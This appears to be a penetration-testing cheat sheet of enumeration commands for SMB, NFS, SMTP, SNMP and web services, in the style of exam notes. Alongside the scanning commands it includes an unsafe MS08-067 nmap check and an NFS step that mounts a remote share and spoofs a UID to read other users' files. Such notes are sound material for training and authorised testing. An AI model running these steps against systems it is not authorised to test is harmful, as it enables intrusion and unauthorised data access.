# Enumeration
## SMB Enumeration
### Nmap
#### Nmap Find SMB
```bash
nmap -v -p 139,445 -oG smb.txt 10.10.10.0/24
```
#### NMAP SMB OS Discovery Script
```bash 
nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152
```
#### NMAP SMB Unsafe Script
```bash
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.10.10.10
```
### NBTScan
```bash
nbtscan -r 10.11.1.0/24
```
### LOLBAS - Net View Resources on DC
```cmd
net view \\dc01 /all
```

## NFS Enumeration
### NMAP - Discover Hosts with RPC Open
```bash
nmap -v -p 111 10.10.10.0/24
```
### NMAP - Find Services Available through RPCBind
```bash
nmap -sV -p 111 --script=rpcinfo 10.10.10.0/24
```
### NMAP - Run Scripts Related to a Service
```bash
nmap -p 111 --script nfs* 10.10.10.10
```

### NMAP - Exploit NFS Vuln
```bash
mkdir home
sudo mount -o nolock 10.10.10.10:/home ~/home/
cd home/ && ls
sudo adduser pwn
sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

## SMTP Enumeration
### Connect to SMTP Server with NC
```bash
nc -nv 10.10.10.10 25
```
### User Enumeration Python Script

https://github.com/ZeusBanda/SMTP-User-Enumeration

```bash
python3 SMTP-User-Enumeration.py firstlast 19.10.10.10
```
### Test connection with Powershell
```powershell
Test-NetConnection -Port 25 10.10.10.10
```
### Telnet Client
#### Install or grab from

c:\windows\system32\telnet.exe

```powershell
C:\Windows\system32> dism /online /Enable-Feature /FeatureName:TelnetClient
```

#### Run Telnet
```powershell
telnet 10.10.10.10 25
```

## SNMP Enumeration
### NMAP Scan for SNMP Port
```bash
nmap -sU --open -p 161 10.10.10.0/24 -oG open-snmp.txt
```
### onesictyone with community strings and IPs
```bash
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 10.10.10.$ip; done > ips
onesixtyone -c community -i ips
```
### SNMPWALK
```bash
snmpwalk -c public -v1 -t 10 10.10.10.10
```

#### SNMPWALK enumerate windows users on DC
```bash
snmpwalk -c public -v1 10.10.10.11 1.3.6.1.4.1.77.1.2.25
```
#### SNMPWALK enumerate running processes
```bash
snmpwalk -c public -v1 10.10.10.10 1.3.6.1.2.1.25.4.2.1.2
```
#### SNMPWALK Enumerate Installed software
```bash
snmpwalk -c public -v1 10.10.10.10 1.3.6.1.2.1.25.6.3.1.2
```
#### SNMPWalk Enumerate TCP Ports
```bash
snmpwalk -c public -v1 10.10.10.10 1.3.6.1.2.1.6.13.1.3
```

## Webservers
### nmap fingerprinting
```bash
nmap -p80 -sV 10.10.10.10
```
### nmap finferprinting - http-enum
```bash
nmap -p80 --script=http-enum
```
